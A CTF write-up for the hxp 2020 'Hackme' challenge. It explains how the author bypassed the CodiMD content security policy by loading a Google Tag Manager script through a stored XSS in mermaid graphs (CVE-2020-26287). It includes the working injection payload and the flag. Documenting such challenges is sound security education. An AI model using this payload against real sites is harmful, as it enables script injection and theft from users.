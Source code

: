 Hackme: Web hard - hxpctf 2020
===
This year I played hxp ctf w/ [mHACKeroni](https://mhackeroni.it)
## The challenge
The challenge is a [CodiMD](https://github.com/hackmdio/codimd) docker with report uri.
In the challenge, a note called "the-flag" exists and it contents, obv, the fl4g. This challenge is very very intresting, I loved it but the Dockerfile is really B1GG, with my orrible network it took ~15 minutes for build ahahah.  
(Solves: 15/1177, Fixed by CodiMD Team after issue [#1630](https://github.com/hackmdio/codimd/issues/1630), CVE-2020-26287)
## The bug
This challenge, obviously, has an XSS vuln mlmlmlml!\
Oh sh1t there is a CSP. I took a couple of minutes to analyze it
```
Content-Security-Policy: default-src 'self';script-src 'self' vimeo.com https://gist.github.com www.slideshare.net https://query.yahooapis.com 'unsafe-eval' https://disqus.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 'nonce-90dfe8a7-eaa5-41a5-a9f2-7d36a6db7ce3' 'sha256-81acLZNZISnyGYZrSuoYhpzwDTTxi7vC1YM4uNxqWaM=';img-src * data:;style-src 'self' 'unsafe-inline' https://github.githubassets.com https://*.disquscdn.com;font-src 'self' data: https://public.slidesharecdn.com https://*.disquscdn.com;object-src *;media-src *;child-src *;connect-src *
```  
Eureka: `https://www.google-analytics.com` is enable.\
But first I need a method to include some script from google analytics :(\
With some osint I find a stored xss bug in [mermeid graph]( https://github.com/mermaid-js/mermaid/issues/869). 
## IT'S TIME TO EXPLOIT
With google analytics there is a service called "Google Tag Manager". With it I can create cusotm tag and custom javascript code.

First of all I write an XSS payload and create a variable in Google Tag Manager with this paylod.

![CustomJavascript](images/custom_javascript.png)

Secondly I create a custom Google Universal Analytics Tag ang Google Analytics Settigs that took the custom variable and do something at the page load event

![Gas](images/gas.png)

![Gaua](images/gaua.png)

Finally I write a new note that trigger the xss bug:
```
```mermaid
graph TD
B --> C{<script src=https://www.google-analytics.com/gtm/js?id=GTM-MLQBR25 ></script>}
```

And I report my note.

The flag: 
`
hxp{Yo dawg, I heard you like XSS, so I put some DOM injection in your script injection so you can inject scripts while you inject HTML while you inject scripts! Any questions?}
`.

Thanks a lot to orgs for the idea and for the other challenges.
